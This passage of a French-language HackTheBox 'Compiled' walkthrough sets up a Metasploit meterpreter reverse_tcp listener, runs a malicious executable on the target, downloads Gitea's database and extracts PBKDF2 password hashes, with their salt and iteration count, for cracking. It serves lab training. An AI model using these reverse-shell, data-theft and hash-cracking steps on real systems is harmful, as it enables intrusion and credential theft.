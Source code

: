 ![malicious exe file](/images/HTB-Compiled/msf_exe.png)

Configurez le listener dans Metasploit.

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT_NUMBER>
run
```

Après avoir exécuté le fichier `.exe` sur la cible, nous obtenons un shell meterpreter. Nous pouvons maintenant facilement télécharger `gitea.db` avec `download "C:\Program Files\Gitea\data\Ngitea.db"`.

![Gitea db file download](/images/HTB-Compiled/gitea_db_download.png)

Nous exécutons les requêtes suivantes et obtenons les hachages des utilisateurs.

```
sqlite3 gitea.db

.tables

select * FROM user;
```

![hashes in the gitea.db file](/images/HTB-Compiled/hashes_in_giteadb.png)

Il s'agit de hachages PBKDF2.

> PBKDF2 (Password-Based Key Derivation Function 2) est un algorithme cryptographique utilisé pour dériver des clés cryptographiques sécurisées à partir d'un mot de passe. Il applique une fonction pseudo-aléatoire (telle que HMAC) de manière itérative au mot de passe ainsi qu'à un sel (une valeur aléatoire) pour générer une clé. Le processus est répété de nombreuses fois (souvent des milliers ou des dizaines de milliers d'itérations) afin de ralentir les attaques par force brute et de rendre plus difficile la récupération du mot de passe original par les attaquants.

Cette [page de hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) nous apprend que le hash doit respecter ce format: 
`<HASH_ALGORITHM>:<NUMBER_OF_ITERATIONS>:<base64_SALT>:<base64_hash>`. Par exemple:

```
sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```

Hashcat prend beaucoup de temps pour cracker le hash, ce qui est inhabituel pour HackTheBox, nous arrêtons donc le processus et utilisons une autre méthode.

![hashcat cracking process taking too long](/images/HTB-Compiled/hashcat_toolong.png)

J'ai demandé à ChatGPT un script Python pour trouver le mot de passe. Cette solution est possible car nous disposons déjà de toutes les informations dont nous avons besoin :
* L'algorithme: pbkdf2
* La valeur du hachage: `97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16`
* Le nombre d'itérations: 50000
* La valeur du sel: `227d873cca89103cd83a976bdac52486`
* La longueur de la clé: 50
